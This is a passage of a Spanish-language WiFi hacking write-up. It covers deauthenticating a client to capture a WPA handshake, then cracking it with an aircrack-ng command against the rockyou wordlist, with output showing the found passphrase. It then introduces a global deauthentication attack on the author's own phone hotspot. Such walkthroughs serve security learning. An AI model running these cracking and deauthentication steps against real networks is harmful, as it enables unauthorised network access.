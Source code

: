 Esto lo que hice fue expulsar al cliente de la red y ahora ya capturamos el **Handshake** ya se conecte automáticamente

![](/assets/images/hacking-writeup-wifi/web7new.png)

Procedemos a crackear para ver la contraseña 

```bash
❯ aircrack-ng -w /usr/share/wordlists/rockyou.txt Captura-02.cap
Reading packets, please wait...
Opening Captura-02.cap
Read 6933 packets.


                               Aircrack-ng 1.6 

      [00:00:00] 115/10303727 keys tested (576.74 k/s) 

      Time left: 4 hours, 57 minutes, 45 seconds                 0.00%

      [00:00:00] 299/10303727 keys tested (880.17 k/s) 

      Time left: 3 hours, 15 minutes, 6 seconds                  0.00%

      [00:00:00] 451/10303727 keys tested (915.48 k/s) 

      Time left: 3 hours, 7 minutes, 34 seconds                  0.00%

      [00:00:01] 555/10303727 keys tested (928.10 k/s) 

      Time left: 3 hours, 5 minutes, 1 second                    0.01%

                       Current passphrase: manchester                 


      Master Key     : 55 01 AE 01 39 05 DF 0B 58 9B EF 29 56 27 80 10 
                          KEY FOUND! [ manchester ]
      Transient Key  : 51 23 B5 F0 A5 9A CA 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
      EAPOL HMAC     : 92 E5 79 A4 74 0A 86 69 6E C2 3E 53 7B 76 17 CC 
```

## Ataque de De-Autenticacion Global

Bueno para este ataque vamos a seguir monitorisando el punto de acceso que creamos desde nuestro celular para eso seguimos los mismos conceptos, para ver los clientes conectados
